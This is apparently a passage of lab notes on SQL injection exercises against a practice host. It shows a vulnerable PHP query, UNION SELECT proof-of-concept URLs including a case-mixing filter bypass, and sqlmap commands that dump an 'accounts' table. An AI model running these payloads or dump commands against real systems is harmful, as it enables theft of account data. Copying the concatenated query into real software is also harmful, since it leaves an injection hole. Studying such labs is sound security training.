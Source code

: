 ### 2 - UNION SELECT

* sin filtros.

```bash
Filters: none

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
http://hacker.site/2nd/upload.php?lab=2&payload='+union+select+@@version;%23

# SQLMAP
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" -p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL --banner --no-cast

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" -p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL -D selfie4you02 -T accounts --dump --no-cast

```

### 3 - UNION SELECT

* filtro de azar
* sindicato-char no es necesario aquí.

```bash
Filters:
/UNION/
/SELECT/

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
http://hacker.site/2nd/upload.php?lab=3&payload=a%27%20UNIoN%20SeLECT%20%27PoC%20String%27;%20--%20-

# SQLMAP

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase --banner

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase -D selfie4you03 -T accounts --dump
```

### 4 - Boolean-based blind
